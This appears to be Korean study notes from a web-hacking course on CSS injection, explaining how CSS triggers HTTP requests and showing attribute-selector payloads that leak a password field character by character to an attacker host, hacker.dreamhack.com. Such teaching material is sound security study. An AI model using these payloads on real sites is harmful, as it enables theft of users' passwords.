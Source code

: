 ​	-> p 태그 중 name속성의 값이 `test`인 태그를 지정하여 color를 red로 설정하는 CSS문법



### 	HTTP Send

```css
<style>@import url("http://example.com/");/* 외부 자원의 CSS 로드 */body { background: url("http://example.com/"); }/* 해당 태그의 백그라운드 이미지 지정. */</style>
```

​	-> 위와 같은 문법들을 통해 HTTP를 요청을 생성 가능



* **공격 방법**

  - 공격 페이로드 - 1

    ```css
    input[name='userpw'][value^='a']{background: url("http://hacker.dreamhack.com/a");}
    input[name='userpw'][value^='b']{background: url("http://hacker.dreamhack.com/b");}
    input[name='userpw'][value^='c']{background: url("http://hacker.dreamhack.com/c");}
    ...
    input[name='userpw'][value^='S']{background: url("http://hacker.dreamhack.com/S");}
    ```

    -**> 해당 HTTP 요청을 받는 공격자는 password의 첫 단어가 `S` 라는 점을 알 수 있음**

  - 공격 페이로드 - 2

    ```css
    input[name='userpw'][value^='Sa']{background: url("http://hacker.dreamhack.com/Sa");}
    input[name='userpw'][value^='Sb']{background: url("http://hacker.dreamhack.com/Sb");}
    input[name='userpw'][value^='Sc']{background: url("http://hacker.dreamhack.com/Sc");}
    ...
    input[name='userpw'][value^='Su']{background: url("http://hacker.dreamhack.com/Su");}
    ```

    **-> 첫 단어가 `S` 라는 점을 알게된 후 다시 한번 요청하여 다음 단어를 획득**

  ### **Attribute Selectors syntax**

  | syntax            | 설명                                   | 만족하는 예시                  |
  | ----------------- | -------------------------------------- | ------------------------------ |
  | `[value^='a']`    | a로 시작하는 경우                      | `<value="abc">`                |
  | `[value$='a']`    | a로 끝나는 경우                        | `<value="cba">`                |
  | `[value*='a']`    | a가 포함되어 있는 경우                 | `<value="bab">`                |
  | `[value='ABC' i]` | abc이며 대소문자 구분를 하지 않는 경우 | `<value="abc">``<value="ABC">` |

